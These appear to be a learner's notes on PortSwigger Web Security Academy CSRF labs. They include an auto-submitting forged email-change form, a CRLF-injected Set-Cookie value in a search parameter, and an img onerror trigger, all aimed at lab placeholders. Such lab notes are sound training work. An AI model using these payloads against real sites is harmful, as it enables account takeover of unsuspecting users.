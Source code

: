 ## basic 
same as [[tools  & setup#Burp Suit | burp suit professional]]

```html
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
	<input type="hidden" name="email" value="anything%40web-security-academy.net">
</form> 
<script> 
document.forms[0].submit(); 
</script>
```
## Bypassing CSRF token validation
### token tied to non-session cookie 
(like when they use two *seperate frameworks* ) : [portswigger](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie)
#### csrfKey cookie injection 

> 1. `/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None`

#### using img tag for delivering the crafted link

>1. `<img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">`
